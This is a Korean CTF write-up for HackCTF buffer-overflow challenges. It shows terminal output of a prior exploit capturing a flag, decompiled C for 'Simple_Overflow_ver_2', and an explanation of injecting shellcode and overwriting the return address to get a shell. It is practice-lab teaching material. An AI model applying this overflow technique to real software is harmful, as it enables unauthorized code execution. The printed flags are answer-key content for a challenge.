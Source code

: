 ```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python simple_size_bof.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3005: Done
[*] buf addr : 0x7fff99022510
[*] Switching to interactive mode
$ cat flag
$ cat flag
HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}
$  
```

> FLAG : HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}

---
HackCTF Challenge : Simple_Overflow_ver_2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) )
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break;
        if ( !(i & 0xF) )
          printf("%p: ", &s[i]);
        printf(" %c", (unsigned __int8)s[i]);
        if ( i % 16 == 15 )
          putchar(10);
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  return 0;
}
```
<strong>코드를 보면 scanf 함수를 이용해서 s의 값을 입력해주고, printf로 입력 값을 출력해주고, `"Again (y/n): "`를 출력해서 한 번 더 입력할 거냐고 묻는다. `y`를 누르면 다시 입력을 하고, `n`을 누르면 종료를 합니다. 하지면 s의 크기는 136인데 입력은 무제한으로 받을 수 있어 BOF 취약점이 발생합니다. 그래서 그냥 이번 문제도 shell code를 s에 넣어주고, ret를 s의 주소로 덮어주면 쉘을 딸 수 있습니다.</strong><br>
